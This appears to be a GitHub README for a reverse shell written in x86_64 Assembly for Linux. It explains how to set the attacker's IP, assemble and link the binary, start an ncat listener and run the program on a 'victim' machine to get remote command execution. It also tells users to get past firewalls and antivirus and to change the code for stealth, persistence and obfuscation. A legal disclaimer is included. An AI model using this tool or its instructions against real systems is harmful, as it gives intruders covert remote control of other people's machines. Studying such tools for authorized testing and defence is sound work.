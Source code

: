 # Reverse Shell in x86_64 Assembly

## Overview
This project is a simple **reverse shell** written in **x86_64 Assembly** for **Linux**. It connects back to an attacker's machine, allowing remote command execution on the target system.

## Requirements
To use this reverse shell, you need the following:

- **Attacker's Machine** (Listening for the connection):
  - Install **Nmap** (includes `ncat`)
  - A terminal to run the `ncat` listener

- **Victim's Machine** (Executing the reverse shell):
  - Linux OS with support for x86_64 assembly
  - NASM (Netwide Assembler) for assembling the script
  - LD (GNU linker) to generate the final executable

## Setup
### 1. Edit the IP Address
Before compiling, update the script to reflect the attacker's IP address. Modify the following line:

```assembly
    at sin_addr,    dd 0x1E01A8C0   ; IP address of the attacker: 192.168.1.30 (little-endian)
```

To set your attacker's IP address, convert your **IPv4 address** into **little-endian** format and replace `0x1E01A8C0` accordingly. Example:

- If the attacker's IP is `192.168.1.30`, then in little-endian it is `0x1E01A8C0`.

## Compilation
Use **NASM** and **LD** to compile the script:

```bash
nasm -f elf64 reverse_shell.asm -o reverse_shell.o
ld reverse_shell.o -o reverse_shell
```

This will generate an executable named `reverse_shell`.

## Running the Reverse Shell
### 1. Start the Listener on the Attacker's Machine
On the **attacker's** machine, use `ncat` to listen for incoming connections:

```powershell
PS C:\Users\X> ncat -lvnp 12345
```

This command:
- `-l` (listen mode)
- `-v` (verbose mode)
- `-n` (numeric-only IP addresses, no DNS resolution)
- `-p 12345` (port 12345)

### 2. Execute the Reverse Shell on the Victim's Machine
On the **victim's** machine, run the compiled binary:

```bash
./reverse_shell
```

### 3. Gain Remote Shell Access
Once executed, you should receive a **shell session** on the **attacker's** machine via `ncat`.

You can now execute commands remotely on the victim's machine.

## Notes
- Ensure that **firewall rules** and **antivirus** do not block the connection.
- You may need `sudo` privileges on the victim's machine.
- Modify the script for stealth, persistence, or obfuscation if required.

## Licensing

This reverse shell is released under the MIT license by DanielaCe18. Source code is available on GitHub.

## Disclaimer ⚠️

Usage of this reverse shell for attacking a target without prior consent of its owner is illegal. It is the end user's responsibility to obey all applicable local laws.

